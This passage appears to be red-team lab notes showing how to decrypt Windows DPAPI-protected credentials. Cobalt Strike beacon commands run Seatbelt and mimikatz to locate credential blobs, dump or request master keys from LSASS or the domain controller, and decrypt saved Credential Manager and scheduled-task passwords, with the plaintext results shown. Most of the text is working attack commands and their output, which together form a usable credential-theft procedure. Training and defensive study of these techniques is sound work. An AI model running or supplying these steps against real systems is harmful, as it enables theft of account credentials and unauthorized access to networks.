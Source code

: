 Seatbelt can also enumerate them using the `WindowsCredentialFiles` parameter.

```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles

====== WindowsCredentialFiles ======

  Folder : C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\

    FileName     : 6C33AC85D0C4DCEAB186B3B2E5B1AC7C
    Description  : Local Credential Data

    MasterKey    : bfc5090d-22fe-4058-8953-47f6882f549e
    Accessed     : 9/6/2022 10:50:44 AM
    Modified     : 9/6/2022 10:50:44 AM
    Size         : 468

    FileName     : DFBE70A7E5CC19A398EBF1B96859CE5D
    Description  : Local Credential Data

    MasterKey    : bfc5090d-22fe-4058-8953-47f6882f549e
    Accessed     : 9/6/2022 10:50:44 AM
    Modified     : 9/6/2022 10:50:44 AM
    Size         : 11036
```

Seatbelt also provides the GUID of the master key used to encrypt the credentials.  The master keys are stored in the users' roaming "Protect" directory.  But guess what... they're also encrypted.
```
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104
[*] Listing: C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     08/15/2022 17:34:31   bfc5090d-22fe-4058-8953-47f6882f549e
 928b     fil     08/15/2022 17:34:31   BK-DEV
 24b      fil     08/15/2022 17:34:31   Preferred

 ``` 

So we must decrypt the master key first to obtain the actual AES128/256 encryption key, and then use that key to decrypt the credential blob.  There are two ways of doing this.

The first is only possible if you have local admin access on the machine and if the key is cached in LSASS.  It will not be in the cache if the user has not recently accessed/decrypted the credential.
```
beacon> mimikatz !sekurlsa::dpapi

Authentication Id : 0 ; 1075454 (00000000:001068fe)
Session           : RemoteInteractive from 2
User Name         : bfarmer
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 9/6/2022 9:09:54 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1104
	 [00000000]
	 * GUID      :	{bfc5090d-22fe-4058-8953-47f6882f549e}
	 * Time      :	9/6/2022 11:27:44 AM
	 * MasterKey :	8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
	 * sha1(key) :	897f7bf129e6a898ff4e20e9789009d5385be1f3
```
  

We can see that the GUID matches what we are looking for, so the key `8d1539[...]19c214` is the one we need.

Another way to obtain the master key (which does not require elevation or interaction with LSASS), is to request it from the domain controller via the Microsoft BackupKey Remote Protocol (MS-BKRP).  This is designed as a failsafe in case a user changes or forgets their password, and to support various smart card functionality.
```
beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc

[domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
  sha1: 897f7bf129e6a898ff4e20e9789009d5385be1f3
```
  This will only work if executed in the context of the user who owns the key.  If your Beacon is running as another user or SYSTEM, you must impersonate the target user somehow first, then execute the command using the `@` modifier.

  

Finally, the blob can be decrypted.
```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214

  TargetName     : Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
  UserName       : SQL-2\Administrator
  CredentialBlob : wIfY&cZ&d?QP9iMFEzckmj.34=@sg.*i
  ```


## With Scheduled tasks creds
Scheduled Tasks can save credentials so that they can run under the context of a user without them having to be logged on.  If we have local admin privileges on a machine, we can decrypt them in much the same way.  The blobs are saved under `C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\`.
```
beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 10kb     fil     08/30/2022 12:42:24   DFBE70A7E5CC19A398EBF1B96859CE5D
 528b     fil     08/16/2022 14:55:28   F3190EBE0498B77B4A85ECBABCA19B6E

  ```

`dpapi::cred` can tell us the GUID of the master key used to encrypt each one.
```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

guidMasterKey      : {aaa23e6b-bba8-441d-923c-ec242d6690c3}
```
  
`sekurlsa::dpapi` to dump cached keys.
```

beacon> mimikatz !sekurlsa::dpapi

	 [00000000]
	 * GUID      :	{aaa23e6b-bba8-441d-923c-ec242d6690c3}
	 * Time      :	9/6/2022 12:14:38 PM
	 * MasterKey :	10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
	 * sha1(key) :	cfbc842e78ee6713fa5dcb3c9c2d6c6d7c09f06c
```

  

And then decrypt.

```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9

  TargetName     : Domain:batch=TaskScheduler:Task:{86042B87-C8D0-40A5-BB58-14A45356E01C}
  UserName       : DEV\jking
  CredentialBlob : Qwerty123
```
